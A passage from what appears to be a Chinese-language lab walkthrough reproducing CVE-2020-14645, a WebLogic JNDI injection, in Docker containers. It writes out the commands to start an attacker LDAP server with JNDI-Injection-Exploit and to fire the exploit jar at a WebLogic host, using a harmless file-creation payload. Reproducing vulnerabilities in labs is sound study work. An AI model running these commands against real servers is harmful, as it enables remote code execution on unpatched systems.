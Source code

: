 

启动 JNDI 服务。进入容器【ubuntu-JNDI1106】，依次输入命令

- 

```
source /etc/profile
```

- 

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C touch /tmp/CVE110667 -A 172.17.0.3
```



可知适用于 jdk1.8 的 JNDI 访问链接为【ldap://172.17.0.3:1389/usns1q】，如下图。

![图片](https://mmbiz.qpic.cn/mmbiz_png/oBANLWYScMTAGibw9fDqSNQ9TcGxNQNGQ690K5lhcwQGWmSKYBHIZpJwW7w2kq60YtlAksy5DORqqwq6icdqnFHA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)



发起攻击。进入容器【ubuntu-gongji1106】，依次输入命令

- 

```
source /etc/profile
```

- 

```
java -jar CVE-2020-14645.jar 172.17.0.3:1389/usns1q http://172.17.0.4:7001
```

“172.17.0.3:1389/usns1q”部分为JNDI链接，攻击成功会返回weblogic版本，如下图。

![图片](https://mmbiz.qpic.cn/mmbiz_png/oBANLWYScMTAGibw9fDqSNQ9TcGxNQNGQr7aI59h27a2sz8CCkr549icR1Se2sPC18gDKUUsD3Pab96w7IP1Z8gA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)



攻击成功后，容器【ubuntu-JNDI1106】会显示传输信息，如下图。

![图片](https://mmbiz.qpic.cn/mmbiz_png/oBANLWYScMTAGibw9fDqSNQ9TcGxNQNGQGtSHgH54uPKuvGZBrQIhia8FfkR0pF7VLf9V9yBNA5BADcBicj15X7LA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)



攻击成功后，weblogic服务器会生成【CVE】文件，如下图。

![图片](https://mmbiz.qpic.cn/mmbiz_png/oBANLWYScMTAGibw9fDqSNQ9TcGxNQNGQEWub5ic42EECojv7QJ4licUbZ3NC0jq5JZ94I2gicRJ0jFjOPcAzib75WQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)



1.7 参考资料



- https://www.chainnews.com/articles/884170141841.htm
- https://www.freebuf.com/vuls/251540.html
- https://github.com/QAX-A-Team/WeblogicEnvironment
- https://paper.seebug.org/1012/#weblogic
- https://cloud.tencent.com/developer/article/1608010
- https://badcode.cc/2018/05/20/WebLogic-%E5%8A%A8%E6%80%81%E8%B0%83%E8%AF%95%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA/
- https://paper.seebug.org/1280/#cve-2020-14645
- https://www.anquanke.com/post/id/210724